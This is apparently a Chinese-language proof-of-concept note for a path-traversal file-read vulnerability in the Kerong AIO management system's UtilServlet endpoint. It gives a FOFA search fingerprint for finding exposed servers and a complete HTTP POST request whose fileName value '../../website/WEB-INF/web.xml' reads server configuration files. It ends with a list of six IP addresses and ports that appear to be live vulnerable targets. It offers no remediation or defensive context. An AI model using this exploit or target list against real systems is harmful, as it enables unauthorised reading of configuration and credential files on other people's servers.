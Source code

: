 # 科荣 AIO 管理系统 UtilServlet 文件 fileName 参数文件读取漏洞

    ## fofa

```
body="changeAccount('8000')"
```

## poc

```
POST /UtilServlet HTTP/1.1
Host: 106.14.216.219:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: no-cache
Connection: close
Content-Type: application/x-www-form-urlencoded
Pragma: no-cache
Upgrade-Insecure-Requests: 1
Content-Length: 63

operation=readErrorExcel&fileName=../../website/WEB-INF/web.xml
```

http://106.14.216.219:8000/UtilServlet

http://106.14.216.219:8002/UtilServlet

http://112.74.13.69:9005/UtilServlet

http://112.74.13.69:9004/UtilServlet

http://113.104.196.166:8000/UtilServlet

http://113.118.86.7:8011/UtilServlet
